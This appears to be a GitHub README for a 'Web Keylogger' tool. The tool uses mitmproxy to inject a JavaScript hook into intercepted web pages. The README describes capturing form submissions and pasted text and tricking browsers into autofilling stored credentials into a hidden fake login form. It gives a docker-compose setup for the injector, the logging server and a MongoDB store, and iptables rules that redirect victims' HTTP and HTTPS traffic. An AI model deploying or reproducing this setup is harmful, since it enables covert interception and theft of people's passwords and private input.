

# Web Keylogger
Persistent injection of hidden form and extraction of user's credentials if stored in the browser capable

## mitmproxy
[mitmproxy][1] is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets.



## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage
* Extracts user's credential by fakeing login form --- if credentials are stored for the domain, browser (Chrome, Firefox) injects them into hidden form

## docker-compose.yml

```
version: '3.5'

services:
  injector:
    image: injector
    container_name: injector
    build:
      context: ./injector
    volumes:
      - ./data/mitmproxy:/root/.mitmproxy
    ports:
      - 8080:8080
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    network_mode: host

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS
    ports:
      - 8081:80
      - 8445:443
      - 7000:7000
    restart: unless-stopped
    volumes:
      - ./data/mitmproxy:/data/mitmproxy
      - ./data/haproxy:/data/haproxy
    depends_on:
      - injector
      - mongo
    environment:
      - HOOK_HOST=$HOOK_HOST

  mongo:
    container_name: keylogger_mongo
    image: mongo
    restart: unless-stopped
    volumes:
      - ./data/mongo:/data/db
```

## Server Setup

```bash
# Modify .env and docker-compose.yml variables to reflect your environment
docker-compose up -d

# Setup firewall rules
sysctl -w net.ipv4.ip_forward=1
sysctl -w net.ipv4.conf.all.send_redirects=0
iptables -P FORWARD ACCEPT
iptables -t nat -N MITM
iptables -t nat -A MITM -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A MITM -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

# Enable
iptables -t nat -A PREROUTING -j MITM

# Disable
iptables -t nat -D PREROUTING -j MITM
```

## Client Setup

```bash
# ip route del to default via XXX.XXX.XXX.XXX
# ip route add default via YYY.YYY.YYY.YY

Visit mitm.it in client browser and install certificate (Other)

curl -k https://www.messenger.com
```

## Demonstration
- https://www.youtube.com/watch?v=kO2t3eZgG-8

## Read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>
- <https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/intercepting-ssl-and-https-traffic-with-mitmproxy-and-sslsplit/>

[1]: <https://github.com/mitmproxy/mitmproxy>
